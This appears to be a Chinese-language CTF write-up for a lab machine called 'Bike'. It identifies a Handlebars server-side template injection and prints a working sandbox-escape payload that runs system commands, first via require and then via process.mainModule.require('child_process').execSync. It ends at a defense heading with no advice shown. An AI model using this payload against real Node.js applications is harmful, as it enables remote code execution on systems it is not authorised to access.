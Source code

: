 Bike

SSTI identify

![6c3bb58b-cd3f-45d9-b8dc-00dec56f5329.png](attachment:c9962c69-2127-46d4-b0a5-4ed04bfc4dcd:6c3bb58b-cd3f-45d9-b8dc-00dec56f5329.png)

通过报错 显示使用模版Handlebars 

Handlebars SSTI

```html
{#with "s" as |string|}}
 {{#with "e"}}
 {{#with split as |conslist|}}
 {{this.pop}}
 {{this.push (lookup string.sub "constructor")}}
 {{this.pop}}
 {{#with string.split as |codelist|}}
 {{this.pop}}
 {{this.push "return require('child_process').exec('whoami');"}}
 {{this.pop}}
 {{#each conslist}}
 {{#with (string.sub.apply 0 codelist)}}
 {{this}}
 {{/with}}
 {{/each}}
 {{/with}}
 {{/with}}
 {{/with}}
{{/with}}
```

```html
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 1345
ETag: W/"541-sEbhFszxoOHrx2pYd8n5qxybwvM"
Date: Wed, 13 Aug 2025 01:30:07 GMT
Connection: keep-alive

["ReferenceError: require is not defined","    at Function.eval (eval at <anonymous> (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23)), <anonymous>:3:1)","    at Function.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:10:25)","    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:5:37)","    at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)","    at execIteration (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:51:19)","    at Array.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:61:13)","    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:12:31)","    at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)","    at Array.<anonymous> (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:22:14)","    at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), <anonymous>:12:34)"]
```

{{this.push "return require('child_process').exec('whoami');"}} 走不通如何想到执行{{this.push "return
process.mainModule.require('child_process').execSync('whoami');"}}

在 Handlebars 模板沙盒逃逸的探索过程中，从直接使用 `require` 转向使用 `process.mainModule.require` 的思路转变，体现了对 Node.js 模块系统和沙盒机制的深入理解。这种技术演进通常基于以下几个关键认知：

---

### **1. 理解沙盒环境限制**

- 直接 `require` 可能被沙盒禁用或重写
- 但沙盒往往不会完全隔离 Node.js 的全局对象（如 `process`）
- `process.mainModule` 是通向主 Node.js 环境的"后门"

---

### **2. 技术突破路径**

### **阶段一：直接 require 失败**

```
{{this.push "return require('child_process').exec('whoami');"}}

```

- **失败原因**：沙盒环境可能：
    - 重写了全局 `require` 函数
    - 移除了 `require` 的访问权限
    - 对模块加载进行了白名单过滤

### **阶段二：寻找替代路径**

1. **发现 `process` 对象可用**：
    - 通过 `[object process]` 确认全局对象存在
    - 验证 `process` 未被沙盒完全隔离
2. **研究 `process.mainModule`**：
    - 即使被标记为 deprecated（Node.js 14+），功能仍然存在
    - 主模块的 `require` 通常不受沙盒限制
3. **构造新的 payload**：

```
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}

```

- **优势**：
    - 绕过沙盒的 `require` 限制
    - 使用同步执行（`execSync`）确保立即返回结果
    - 通过主模块访问原始 Node.js 环境

---

### **3. 技术原理深度解析**

| 技术点 | 说明 |
| --- | --- |
| **process 对象** | Node.js 的全局对象，包含进程信息，通常沙盒难以完全隔离 |
| **mainModule 属性** | 指向程序的主模块（即使弃用仍可访问） |
| **require 的层级** | `mainModule.require` 获取的是 Node.js 原始的模块加载器 |
| **execSync vs exec** | 同步执行更利于获取即时输出，避免异步回调问题 |

---

### **4. 防御建议**